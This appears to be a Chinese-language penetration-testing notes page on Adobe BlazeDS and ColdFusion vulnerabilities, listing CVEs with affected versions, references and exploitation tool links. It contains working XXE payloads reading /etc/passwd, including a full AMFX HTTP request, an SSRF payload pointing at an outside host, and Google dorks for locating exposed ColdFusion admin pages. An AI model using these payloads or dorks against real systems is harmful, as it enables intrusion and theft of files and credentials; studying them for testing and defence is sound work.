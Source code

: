 #### [CVE-2009-3960] XXE BlazeDS<= 3.2
影响组件：
HTTPChannel servlet。具体的，是
```
“mx.messaging.channels.HTTPChannel”
“mx.messaging.channels.SecureHTTPChannel”
```
在这个包`flex-messaging-common.jar`里。
HTTPChannel 以AMFX格式的数据进行通信（就是AMF的XML格式）。
这个endpoints在这个文件`Flex/WEB-INF/services-config.xml`里定义。

默认HTTPChannel映射到了以下接口：
- /messagebroker/http
- /messagebroker/httpsecure
不过不同的框架（比如BlazeDS, Adobe LiveCycle Data Services）会被映射到不同的路径。

```http
POST /samples/messagebroker/http HTTP/1.1
Content-type: application/x-amf

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [ <!ENTITY x3 SYSTEM "/etc/passwd"> ]>
<amfx ver="3" xmlns="http://www.macromedia.com/2005/amfx">
  <body>
    <object type="flex.messaging.messages.CommandMessage">
      <traits>
        <string>body</string><string>clientId</string><string>correlationId</string>
        <string>destination</string><string>headers</string><string>messageId</string>
        <string>operation</string><string>timestamp</string><string>timeToLive</string>
      </traits><object><traits />
      </object>
      <null /><string /><string />
      <object>
        <traits>
          <string>DSId</string><string>DSMessagingVersion</string>
        </traits>
        <string>nil</string><int>1</int>
      </object>
      <string>&x3;</string>
<int>5</int><int>0</int><int>0</int>
    </object>
  </body>
</amfx>
```

参考：
- [Adobe (Multiple Products) - XML External Entity / XML Injection](https://www.exploit-db.com/exploits/11529)
- [Adboe官方对BlazeDS的公告](https://www.adobe.com/support/security/bulletins/apsb10-05.html)

#### [CVE-2015-3269]XXE BlazeDS< 4.7.1
http://mail-archives.apache.org/mod_mbox/flex-users/201511.mbox/%3Cop.x8j4mv0bn9yd54@christofers-macbook-pro.local%3E
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

#### [CVE-2015-5255]SSRF BlazeDS< 4.7.2
http://apache-flex-users.2333346.n4.nabble.com/CVE-2015-3269-Apache-Flex-BlazeDS-Insecure-Xml-Entity-Expansion-Vulnerability-td10976.html

```xml
<!DOCTYPE foo PUBLIC "-//VSR//PENTEST//EN"
"http://49.x.y.z:8888/protected-service"><foo>Some content</foo>
```


#### [CVE-2017-3066]Adobe Coldfusion BlazeDS反序列化
影响范围：
- Adobe ColdFusion 2016 Update 3 and earlier
- Adobe ColdFusion 11 update 11 and earlier
- ColdFusion 10 Update 22 and earlier


#### [CVE-2017-5641] 反序列化 BlazeDS< 4.7.3
- [[CVE-2017-5641] - DrayTek Vigor ACS 2 Java Deserialisation RCE](https://seclists.org/fulldisclosure/2018/Apr/40)


### 参考
- [Adobe Coldfusion 11.0.03.292866 - BlazeDS Java Object Deserialization Remote Code Execution](https://www.exploit-db.com/exploits/43993)
- https://codewhitesec.blogspot.com/2018/03/exploiting-adobe-coldfusion.html
- [Exploitation Tool for CVE-2017-3066 targeting Adobe Coldfusion 11/12](https://github.com/codewhitesec/ColdFusionPwn/tree/master/src/main/java)
- https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2017-3066/README.zh-cn.md
- [Adobe官方公告](https://helpx.adobe.com/security/products/coldfusion/apsb17-14.html)

## 其他参考

- [ColdFusion for Pentesters](http://www.carnal0wnage.com/papers/LARES-ColdFusion.pdf)
- http://web.archive.org/web/20101226181618/http://www.security-assessment.com/files/advisories/2010-02-22_Multiple_Adobe_Products-XML_External_Entity_and_XML_Injection.pdf


### Google Dorks
```
- filetype:cfm "cfapplication name" password
- inurl:login.cfm
- intitle:"Error Occurred" "The error occurred in"
- filetype:cfm
- intitle:"ColdFusion Administrator Login“
- intitle:"Index of" cfide
- inurl:/CFIDE/componentutils/
```


### CodeFusion各个版本的界面


## 利用工具
- https://github.com/codewhitesec/ColdFusionPwn/tree/master/src/main/java
- https://github.com/mbechler/marshalsec/blob/6e5f2a7974a62fcd0e5bbbf8df64774a50db2eb8/src/main/java/marshalsec/BlazeDSAMF3AM.java
- https://github.com/mbechler/marshalsec/blob/0471b932a09c8aca21876de80c8abf65b251c9ca/src/main/java/marshalsec/BlazeDSAMFX.java
- https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2017-3066/README.zh-cn.md



